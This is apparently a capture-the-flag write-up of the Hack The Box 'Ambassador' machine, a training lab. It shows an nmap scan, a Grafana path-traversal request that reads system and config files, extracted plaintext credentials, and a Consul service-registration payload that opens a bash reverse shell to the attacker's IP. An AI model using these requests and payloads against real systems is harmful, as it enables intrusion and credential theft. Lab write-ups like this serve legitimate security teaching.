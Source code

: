 # Enumeration
IP :10.10.11.183
## Nmap
```bash
nmap -sC -sV -oA nmap/ambassador 10.10.11.183
**Nmap scan report for 10.10.11.183
Host is up (0.0085s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http        Apache httpd 2.4.41 ((Ubuntu))
|_http-generator: Hugo 0.94.2
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Ambassador Development Server
3000/tcp open  ppp?
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 302 Found
|     Cache-Control: no-cache
|     Content-Type: text/html; charset=utf-8
|     Expires: -1
|     Location: /login
|     Pragma: no-cache
|     Set-Cookie: redirect_to=%2Fnice%2520ports%252C%2FTri%256Eity.txt%252ebak; Path=/; HttpOnly; SameSite=Lax
|     X-Content-Type-Options: nosniff
|     X-Frame-Options: deny
|     X-Xss-Protection: 1; mode=block
|     Date: Sun, 29 Jan 2023 14:14:12 GMT
|     Content-Length: 29
|     href="/login">Found</a>.
|   GenericLines, Help, Kerberos, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|
3306/tcp open  nagios-nsca Nagios NSCA
| mysql-info: 
|   Protocol: 10
|   Version: 8.0.30-0ubuntu0.20.04.2
|   Thread ID: 69
|   Capabilities flags: 65535
|   Some Capabilities: ConnectWithDatabase, Support41Auth, Speaks41ProtocolOld, FoundRows, IgnoreSigpipes, SupportsTransactions, SupportsCompression, SwitchToSSLAfterHandshake, InteractiveClient, LongColumnFlag, ODBCClient, LongPassword, Speaks41ProtocolNew, DontAllowDatabaseTableColumn, SupportsLoadDataLocal, IgnoreSpaceBeforeParenthesis, SupportsAuthPlugins, SupportsMultipleStatments, SupportsMultipleResults
|   Status: Autocommit
|   Salt: {\x18m%\x1D!9H	;\x05\x18tJe\x17C-!@
|_  Auth Plugin Name: caching_sha2_password
**
```
Hugo version 0.94.2, Ubuntu

## Port 80
Static webpage.

## Port 3000
Grafana v8.2.0 which is older then sept 2021 (from github issue.)

Check exploit db to find a LFI
```python
url = args.host + '/public/plugins/' + choice(plugin_list) + '/../../../../../../../../../../../../..' + file_to_read
```
This is what the script boils down to.

Have to use burp cause `../` thingy

As mysql port is open going to try to sub in mysql for the choice.
```http
GET /public/plugins/mysql/../../../../../../../../../../../../etc/passwd HTTP/1.1
Host: 10.10.11.183:3000
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: redirect_to=%2F
Upgrade-Insecure-Requests: 1
```
check `/etc/passwd` for users on the box
```
grep '/bin/bash' passwd
root:x:0:0:root:/root:/bin/bash
developer:x:1000:1000:developer:/home/developer:/bin/bash
```
ssh key?

nope

Checking the grafana documentation for where the init file is stored.
```
/etc/grafana/grafana.ini
```
Look at file
```
cat grafana.ini | grep password
admin_password = messageInABottle685427
```
Admin:messageInABottle685427 logs into grafana

Nothing on grafana, try the db file. `/var/lib/grafana/grafana.db`

Get the creds out of the file by using sqlite3
```
grafana:dontStandSoCloseToMe63221!
```
Try login to mysql, which works.

Get developers passwd (b64)
```
developer:anEnglishManInNewYork027468
```
user flag
```
d5d5e296b0066478c9f4667a26c04331
```
no sudo -l

# Priv esc
Found reference to consul which has a rce on metasploit.

Looking at the git logs for the wackywidget there is a consul token.
```
bb03b43b-1d81-d62b-24b5-39540ee469b5
```
Get the api data. (command and port found from metasploit script)
```
curl --header "X-Consul-Token: bb03b43b-1d81-d62b-24b5-39540ee469b5" localhost:8500/v1/agent/self; echo
```
Check if either `EnableLocalScriptChecks` or `EnableRemoteScriptChecks` is set to true.
```bash
cat dump.json | jq . | grep ScriptCheck
```
They both are!

Now to generate the payload as json data:
```json
{
"ID":"Notavirus",
"Name":"Notavirus",
"Address":"127.0.0.1",
"Port":80,
"check":{
	"args":[ "/bin/bash" , "-c", "bash -i >& /dev/tcp/10.10.14.47/9001 0>&1"],
	"interval":"10s",
	"Timeout":"86400s"
	}
}
```
Then trigger the exploit.
```bash
curl --request PUT --data @exp.json --header "X-Consul-Token: bb03b43b-1d81-d62b-24b5-39540ee469b5" localhost:8500/v1/agent/service/register; echo
```
root.txt
```
c36a52339bcd65f5f5d3bc24d8c7dd4d
```
:)

